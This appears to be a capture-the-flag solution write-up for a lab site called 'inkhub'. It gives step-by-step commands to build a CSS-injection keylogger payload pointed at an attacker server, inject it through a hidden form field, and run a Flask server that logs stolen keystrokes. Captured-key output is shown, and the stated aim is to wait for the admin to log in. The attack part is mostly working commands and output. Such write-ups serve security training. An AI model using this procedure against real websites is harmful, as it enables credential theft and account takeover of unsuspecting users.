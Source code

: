 # Solution

A provided PoC is placed in [./css-keylogger](./css-keylogger). Here's a quick boiler-plate set of commands to set things up.

```
cd ./css-keylogger
python -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

Now follow these instructions:

- Generate css keylogger payload using the helper script `make-css-keylogger.py` providing the endpoint for your keylogger server (keep reading, it will make sense)

    ```
    python make-css-keylogger.py http://172.22.209.203:3000
    ```

- The above command should create two files: `keylogger.css` and `injection-string.txt`. The `injection-string.txt` 
is a wrapper injection string around the content of `keylogger.css`.

- Goto the inkhub website, login as `user`, and open the share-quote modal.
  1. Fill the quote text with an _inspiring quote_ "Pwned by css. Pwned by css. Pwned by css. Pwned by css.".
  2. Unhide the `new-quote-color` field.
  3. Copy and paste the content of `injection-string.txt` into the `new-quote-color` field, and submit.
  ![](imgs/css-injection-vector.png)
  
- Confirm that the injection went through by checking `styles.css`
  ![](imgs/css-injection-confirmation.png)

- Start the keylogger `server.py` to capture logged keystrokes (you can test it locally).
    ```
    python server.py
    ``` 
- The output looks like this when keystrokes are captured.
    ```
     * Serving Flask app 'server'
     * Debug mode: off
    WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
     * Running on all addresses (0.0.0.0)
     * Running on http://127.0.0.1:3000
     * Running on http://172.22.209.203:3000
    Press CTRL+C to quit
    Received 'key' value: s
    172.22.208.1 - - [17/Nov/2024 02:47:52] "GET /?key=s HTTP/1.1" 200 -
    Received 'key' value: e
    172.22.208.1 - - [17/Nov/2024 02:47:52] "GET /?key=e HTTP/1.1" 200 -
    Received 'key' value: r
    172.22.208.1 - - [17/Nov/2024 02:47:52] "GET /?key=r HTTP/1.1" 200 -
    Received 'key' value: u
    172.22.208.1 - - [17/Nov/2024 02:47:53] "GET /?key=u HTTP/1.1" 200 -
    ```
- All keystrokes will be saved to `keystrokes.txt`. Now wait for the admin to login... 
    ```
    watch cat keystrokes.txt
    ```
